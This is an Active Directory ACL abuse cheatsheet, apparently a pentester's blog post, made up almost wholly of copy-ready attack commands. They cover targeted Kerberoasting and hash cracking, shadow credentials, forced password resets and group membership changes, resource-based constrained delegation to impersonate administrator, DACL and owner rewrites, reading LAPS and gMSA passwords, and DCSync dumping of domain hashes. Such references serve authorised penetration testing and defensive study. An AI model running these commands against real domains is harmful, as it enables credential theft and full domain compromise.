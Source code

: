 ```yaml
---
title: AD ACLs Cheatsheet
author: Kasem Shibli
date: 2025-10-27 12:15:00 +/-TTTT
categories: [CheetSheets]
tags: [AD-ACLs]
---
```

# AD ACLs Cheatsheet

# GenericWrite on User
## Targeted Kerberoasting
```bash
targetedKerberoast.py -d domain --dc-ip ip -u username -p password --dc-host dc --request-user target_user

hashcat -m 13100 -a 0 <hash_file> rockyou.txt --force

john <hash_file> --wordlist=rockyou.txt
```
## ShadowCredentials
```bash
certipy shadow auto -u username@domain -p password -account target_user -dc-ip ip
```
Using Kerberos
```bash
certipy shadow auto -username username@domain -k -account target_user -dc-ip ip
```
# GenericALL
## Change Password
```bash
bloodyAD --host dc -d domain -u username -p password set password target new_password

net rpc password 'username' 'new_password' -U 'domain'/'username'%'hash' -S 'dc' --pw-nt-hash

net rpc password 'username' 'new_password' -U 'domain'/'username'%'password' -S 'dc'
```

## Add user to a group
```bash
net rpc group addmem target_group username -U domain/username -S dc

bloodyAD --host dc -d domain -u username -p password add groupMember target_group target_username
```
## RBCD
```bash
impacket-rbcd -delegate-from machine_name -delegate-to target -dc-ip ip -action write 'domain/username:password'

impacket-getST -spn 'cifs/dc' -impersonate administrator -dc-ip ip 'domain/machine_name:password

export KRB5CCNAME=administrator.ccache
```
## GenericALL on OU
```bash
impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal username -target-dn 'OU_DN' domain/username:password
```
## ForceChangePassword
```bash
net rpc password <TargetUser> <new_password> -U "DOMAIN"/"ControlledUser"%"Password" -S <DomainController>

bloodyAD --host ip -d dc -u username -p password set password target_userename new_password

python rpcchangepwd.py <domain>/<username>:<password>@<ip> -newpass <new_password>

nxc smb domain -u username -p password -M change-password -o USER='target_username' NEWPASS='new_password'
```
## AddMember
```bash
net rpc group addmem target_group username -U domain/username -S dc

bloodyAD --host dc -d domain -u username -p password add groupMember target_group user_to_add
```
## AddSelf
```bash
bloodyAD --host dc -d domain -u username -p password add groupMember target_group username
```
## WriteOwner
```bash
impacket-owneredit -action write -new-owner username -target target domain/username:password

impacket-dacledit -action 'write' -rights 'FullControl' -principal username -target-dn dn 'domain/username:password'

Or With

impacket-dacledit -action 'write' -rights 'WriteMembers' -principal username -target-dn dn 'domain/username:password'

bloodyAD --host dc -d domain -u username -p password add groupMember target_group username
```

## WriteSPN
```bash
bloodyAD --host dc -d domain -u username -p password set object target servicePrincipalName -v 'domain/meow'

impacket-GetUserSPNs domain/username:password -dc-ip ip -request

or

targetedKerberoast -d domain --dc-ip ip -u username -p password --dc-host dc --request-user target_user
```
## AddKeyCredentialLink
```bash
pywhisker.py -d domain --dc-ip ip -u username -p password --target target --action add

gettgtpkinit.py -cert-pfx file.pfx -pfx-pass pfx_password domain/target ticket.ccache -dc-ip ip

getnthash.py domain/target -k key -dc-ip ip

or

certipy shadow auto -u username@domain -p password -account target_user -dc-ip ip
```
## ReadLAPSPassword
```bash
nxc smb target -u username -p password --laps
```
## ReadGMSAPassword
```bash
nxc ldap target -u username -p password --gmsa
```
## DCSync
```bash
impacket-secretsdump domain/username:password@domain

impacket-secretsdump domain/username@domain -hashes :hash

impacket-secretsdump dc -k

nxc smb target -u username -p password --ntds

nxc smb target --use-kcache --ntds
```

# Resources

- https://www.thehacker.recipes/ad/movement/dacl/
- https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse
- https://mayfly277.github.io/posts/GOADv2-pwning-part11/
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces
